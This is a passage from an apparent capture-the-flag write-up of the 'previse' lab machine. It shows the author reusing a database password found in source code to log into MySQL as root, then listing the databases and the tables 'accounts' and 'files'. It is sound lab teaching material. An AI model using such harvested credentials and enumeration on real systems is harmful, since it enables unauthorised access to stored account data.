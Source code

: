     ?>



That password doesn't work for any users on the box.

I'll connect to the DB with `mysql`:



    www-data@previse:/var/www.md$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 28
    Server version: 5.7.34-0ubuntu0.18.04.1 (Ubuntu)

    Copyright (c) 2000, 2021, Oracle and/or its affiliates.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql>



There are five databases, but only one that's really interesting:



    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | previse            |
    | sys                |
    +--------------------+
    5 rows in set (0.00 sec)



It has two tables:



    mysql> use previse;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> show tables;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)
